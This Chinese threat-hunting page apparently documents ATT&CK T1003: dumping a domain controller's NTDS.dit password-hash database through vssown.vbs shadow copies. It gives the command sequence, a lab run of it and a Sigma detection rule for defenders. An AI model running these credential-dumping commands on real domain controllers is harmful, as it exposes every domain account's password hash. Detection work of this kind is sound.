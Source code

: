# T1003-win-使用vssown.vbs获得NTDS.dit文件

## 来自ATT&CK的描述

凭证获取是从操作系统和软件中获取登录信息和密码的过程，通常为HASH散列或明文密码。然后使用凭证进行横向移动访问其他系统。

### NTDS.dit

Ntds.dit文件是存储Active Directory数据的数据库，包括有关用户对象，组和组成员身份的信息。它包括域中所有用户的密码哈希值。域控制器（DC）上的ntds.dit文件只能由可以登录到DC的用户访问。很明显，保护这个文件至关重要，因为攻击者访问这个文件会导致整个域沦陷。

**默认情况下，NTDS文件将位于域控制器的％SystemRoot％\NTDS\Ntds.dit中。**但通常存储在其他逻辑驱动器上）。AD数据库是一个Jet数据库引擎，它使用可扩展存储引擎（ESE）提供数据存储和索引服务。通过ESE级别索引，可以快速定位对象属性。

## 测试案例

在2016+域控上使用 ntdsutil snapshot mount导出ntds.dit

### 创建快照

```dos
cscript vssown.vbs /start
cscript vssown.vbs /create c
cscript vssown.vbs /list
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy11\windows\ntds\ntds.dit C:\
cscript vssown.vbs /delete
```

## 检测日志

windows 安全日志

## 测试复现

```dos
C:\Users\Administrator\Desktop\test>cscript vssown.vbs /start
Microsoft (R) Windows Script Host Version 5.812
版权所有(C) Microsoft Corporation。保留所有权利。

[*] Signal sent to start the VSS service.

C:\Users\Administrator\Desktop\test>cscript vssown.vbs /create c
Microsoft (R) Windows Script Host Version 5.812
版权所有(C) Microsoft Corporation。保留所有权利。

[*] Attempting to create a shadow copy.

C:\Users\Administrator\Desktop\test>cscript vssown.vbs /list
Microsoft (R) Windows Script Host Version 5.812
版权所有(C) Microsoft Corporation。保留所有权利。

SHADOW COPIES
=============

[*] ID:                  {42C8E0BD-6FD9-4CFB-B006-4640DAE84DC8}
[*] Client accessible:   True
[*] Count:               1
[*] Device object:       \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
[*] Differential:        True
[*] Exposed locally:     False
[*] Exposed name:
[*] Exposed remotely:    False
[*] Hardware assisted:   False
[*] Imported:            False
[*] No auto release:     True
[*] Not surfaced:        False
[*] No writers:          True
[*] Originating machine: ICBC.abcc.org
[*] Persistent:          True
[*] Plex:                False
[*] Provider ID:         {B5946137-7B9F-4925-AF80-51ABD60B20D5}
[*] Service machine:     ICBC.abcc.org
[*] Set ID:              {584C48BF-649D-4B35-9CAE-3165C2C8BE53}
[*] State:               12
[*] Transportable:       False
[*] Volume name:         \\?\Volume{16da2094-7213-420f-a023-db7b3e3a7f6f}\


C:\Users\Administrator\Desktop\test>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\ntds\ntds.dit C:\
已复制         1 个文件。

C:\Users\Administrator\Desktop\test>cscript vssown.vbs /delete
Microsoft (R) Windows Script Host Version 5.812
版权所有(C) Microsoft Corporation。保留所有权利。
```

## 测试留痕

测试留痕日志下载地址：<https://github.com/12306Bro/Threathunting-book/blob/master/Eventdata/vssown.evtx>

## 检测规则/思路

```yml
title: 使用vssown.vbs拿到NTDS.dit文件
description: windows server 2016+ AD域控
tags: T1003
status: experimental
author: 12306Bro
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4688 #已创建新的进程。
        New processname: C:\Windows\System32\cscript.exe
        Process commandline:
           - cscript  *.vbs /start #基于命令行检测
           - cscript  *.vbs /create c #基于命令行检测
           - cscript  *.vbs /delete #基于命令行检测
           - cscript  *.vbs /list #基于命令行检测
    condition: selection
---
detection:
    selection1:
        EventID: 4904 #已试图注册安全事件源。
        Processname: C:\Windows\System32\VSSVC.exe
        Source name: VSSAudit #事件源
    selection2:
        EventID: 8222 #已创建影子副本。
        Process image name: C:\Windows\System32\wbem\WmiPrvSE.exe
        Raw volume: \\?\Volume{*}\ #"*"代表正则匹配
        Shadow device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy* #"*"代表正则匹配
    selection3:
        EventID: 4905 #已试图取消注册安全事件源。
        Processname: C:\Windows\System32\VSSVC.exe
        Source name: VSSAudit #事件源
    ​timeframe: last 10S #自定义时间范围
    condition: all of them
level: medium
```

注意：此检测仅适用于windows AD域控主机。

## 参考推荐

MITRE-ATT&CK-T1003

<https://attack.mitre.org/techniques/T1003/>

vssown.vbs下载地址

<https://raw.githubusercontent.com/borigue/ptscripts/master/windows/vssown.vbs>

域渗透——获得域控服务器的NTDS.dit文件

<https://xz.aliyun.com/t/2187>

MITRE ATT&CK攻击知识库（企业）中文版

<https://hansight.github.io/#/>
